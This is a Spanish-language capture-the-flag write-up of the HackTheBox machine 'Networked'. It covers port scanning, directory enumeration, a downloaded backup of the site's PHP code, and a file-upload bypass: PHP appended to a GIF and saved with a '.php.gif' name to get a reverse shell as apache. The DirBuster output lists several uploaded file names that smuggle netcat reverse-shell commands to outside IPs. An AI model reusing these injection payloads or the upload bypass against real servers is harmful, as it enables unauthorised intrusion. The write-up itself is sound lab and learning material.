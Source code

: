 ```yaml
---
layout: post
title: "Networked"
subtitle: 'HackTheBox - Easy Machine - Linux'
date: 2019-11-16 12:00:00
author: "TheusZero"
header-img: "images/post/Networked.png"
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


### Networked - una maquina linux que viene de la mano con php

### Nmap results:
```vim
root@BrI3fIng:~# nmap -sC -sV 10.10.10.146 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-16 18:20 -03
Nmap scan report for 10.10.10.146
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.61 seconds
```

### Puerto 80:
>> Hello mate, we're building the new FaceMash!
  Help by funding us and be the new Tyler&Cameron!
  Join us at the pool party this Sat to get a glimpse

### Dirbuster
```vim
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sat Nov 16 18:56:31 CLST 2019
--------------------------------
http://10.10.10.146:80
--------------------------------
Directories found during testing:
Dirs found with a 200 response:
/
/icons/
/uploads/
/icons/small/
/backup/
Dirs found with a 403 response:
/cgi-bin/
--------------------------------
Files found during testing:
Files found with a 200 responce:
/index.php
/photos.php
/upload.php
/lib.php
/uploads/;nc%20-c%2010.10.15.196%201234;.php
/uploads/;%20nc%20-c%20bash%2010.10.14.197%201976%20&
/uploads/;%20nc%20-c%20bash%2010.10.14.197%201976%20&amp;
/uploads/;nc%20-c%20bash%2010.10.15.196%201234;.php
/uploads/;%20nc%2010.10.16.61%201235%20-c%20bash
/uploads/;nc%2010.10.14.156%208001%20-c%20bash;.php
/backup/backup.tar
--------------------------------
```
raro, creo que hay algunos amigos que dejaron una reverse shell hecha, aunque no se si pescarla, creo que no lo hare uwu.

### Busqueda en los directorios.
creo que tengo algunos directorios importantes

>/upload.php
>
>/uploads/
>
>/backup/

### Backup
viendo el directorio backup puedo encontrar algo interesante, hay un archivo.tar que puedo descargar asi que vamos a la obra.

```vim
root@BrI3fIng:~/HTB/Networked# mv backup.tar backup
root@BrI3fIng:~/HTB/Networked# cd backup/
root@BrI3fIng:~/HTB/Networked/backup# file backup.tar 
backup.tar: POSIX tar archive (GNU)
root@BrI3fIng:~/HTB/Networked/backup# tar -xf backup.tar 
root@BrI3fIng:~/HTB/Networked/backup# ls -la
total 36
drwxr-xr-x 2 root root  4096 nov 16 19:03 .
drwxr-xr-x 3 root root  4096 nov 16 19:03 ..
-rw-r--r-- 1 root root 10240 nov 16 19:02 backup.tar
-rw-r--r-- 1 root root   229 jul  9 07:33 index.php
-rw-r--r-- 1 root root  2001 jul  2 07:38 lib.php
-rw-r--r-- 1 root root  1871 jul  2 08:53 photos.php
-rw-r--r-- 1 root root  1331 jul  2 08:45 upload.php
```
Revisando lib.php y upload.php y photos.php encontre y de manera resumida, que los archivos que el sistema acepta son jpg y gif
por lo que intente subir un gif liviano y el sistema lo acepto, ahora que se que el sistema me acepto la imagen comienza la parte de buscar la reverse shell.

### Reverse Shell - Image GIF.
cargue un archivo bastante chistoso, un gif de my little pony. para cargarle la reverse shell ocupe vim y le inserte una reverse shell en php alfinal del archivo, pero antes de el ";" para que asi se procese con todo el contenido.

de por si no me funciono, ya que no leia el php. buscando por internet encontre que debia llevar si o si el .php, por lo que le coloqueÑ

>wena.php.gif

funciono. 

subio la reverse shell y ahora tocaba a usar netcat para esperar y conectarme, a ver si funcionaba.

### User Apache

Logre entrar como user "Apache"


